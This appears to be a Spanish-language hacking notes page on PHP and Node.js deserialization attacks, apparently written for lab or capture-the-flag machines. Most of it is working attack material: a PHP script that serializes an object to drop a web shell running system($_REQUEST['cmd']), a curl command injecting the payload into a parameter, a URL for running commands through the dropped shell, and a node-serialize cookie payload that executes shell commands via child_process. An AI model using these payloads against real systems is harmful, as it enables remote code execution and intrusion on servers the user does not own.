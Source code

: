 ```yaml
---
icon: file-lock
---
```


# Serealizacion/Deserealizacion

## <mark style="color:purple;">Serializar en</mark> <mark style="color:purple;"></mark><mark style="color:purple;">`URL`</mark> <mark style="color:purple;"></mark><mark style="color:purple;">con</mark> <mark style="color:purple;"></mark><mark style="color:purple;">`PHP`</mark> <mark style="color:purple;"></mark><mark style="color:purple;">sabiendo el codigo</mark>

Si por ejemplo estamos en una maquina y nos muestran el codigo de algun `backup` de algun `.php` de alguna pagina, podremos ver el codigo de `php` por dentro por lo que estudiaremos como funciona y de ahi crearemos nosotros un `.php` para poder crear cosas dentro de la `URL` con los parametros que veamos o poder aprovechar la informacion para inyectar cosas...

Pero en este caso imaginamos que obtuvimos de una pagina un `.php` con su codigo y sabemos como funciona, vemos que se esta tramitando una peticion por parametro llamado `example=` en el archivo `test.php` y a lo ultimo se esta `serializando` la informacion en la `URL`, por lo que tendremos que crear un `.php` que nos genere el contenido de un parametro `cmd=`, craendo una archivo `.php` en el que podamos ejecutar cualquier comando de forma que nos lo serialice para que se lo trague la `URL` en este caso...

```php
<?php
class DatabaseExample
{
	public $user_file = 'payload.php';
	public $data = '<?php system($_REQUEST["cmd"]); ?>'
}

$exploit = new DatabaseExample;

echo serialize($exploit);

?>
```

Con este `.php` cuando lo ejecutemos...

```shell
php data.php; echo
```

Nos mostrara lo que tendremos que meter de forma serializada en el parametro que sabemos que esta creado llamado `example=` para crear un archivo llamado `payload.php` en la base de datos que sabemos que existe por el `backup` creando en ese archivo el parametro `cmd=` pudiendo ejecutar cualquier comando del sistema y por ultimo nos lo serializa para que funcione todo esto, aprovechando las variables publicas que ya estan creadas...

```shell
curl -s -X GET -G "http://<IP>/test.php" --data-urlencode 'example=<TEXT_SERIALIZE>'; echo
```

Esto lo que hara sera ejecutar lo que ya dije anteriormente desde la herramienta `curl`...

Ahora si nos vamos a la misma `URL` pero en vez de pone `test.php` ponemos nuestro archivo creado llamado `payload.php` y poniendo el parametro creado por ese archivo `cmd=` y un comando deberia de funcionar...

```
URL = http://<IP>/payload.php?cmd=whoami
```

URL = https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

Esto se puede aprovechar mirando el archivo `server.js` si estuviera disponible, una vez sabiendo esas informacion se puede aprovechar un `bug` con la `URL` anterior en la `Cookie de sesion` para ejecutar comandos de forma libre, ya que si se deserializa, se puede hacer lo siguiente...

```json
{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

Ajustandolo a tus necesidades, eso se podria `URL Encodear` y ponerlo en la `Cookie` para que cuando recargues la pagina se ejecute un comando en el espacio de `ls /`...

